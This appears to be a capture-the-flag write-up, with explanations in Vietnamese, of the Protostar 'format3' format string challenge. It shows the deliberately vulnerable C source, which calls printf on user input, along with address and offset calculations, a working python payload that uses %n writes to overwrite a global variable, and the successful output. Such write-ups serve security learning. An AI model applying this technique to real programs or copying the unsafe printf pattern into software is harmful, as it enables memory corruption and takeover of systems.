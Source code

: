 # **format3**
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Vulnerability
printf()

## Exploit
- Tìm địa chỉ target: 0x080496f4
- Sử dụng %...$n để %n đến vị trí trong stack cụ thể, không cần dùng nhiều %x như các bài trước.
- Ta cần sửa target thành 0x01025544, không thể tạo ra string rác dài 0x01025544 => chia từng cục để chỉnh sửa.
  - 0x080496f4: 0x44
  - 0x080496f5: 0x55
  - 0x080496f6: 0x102
=> attack-string:
```
python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x%12$n" + "%17x%13$n" + "%173x%14$n"'
```
- Trong đó: 
  - 0x44 = 12+56
  - 0x55 = 12+56+17
  - 0x102 = 12+56+17+173
- Kết quả:
```
user@protostar:/opt/protostar/bin$ python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "%56x%12$n" + "%17x%13$n" + "%173x%14$n"' | ./format3
��                                                       0         bffff5c0                                                                                                                                                                     b7fd7ff4
you have modified the target :)
```
# References
- Format String exploitation tutorial: https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf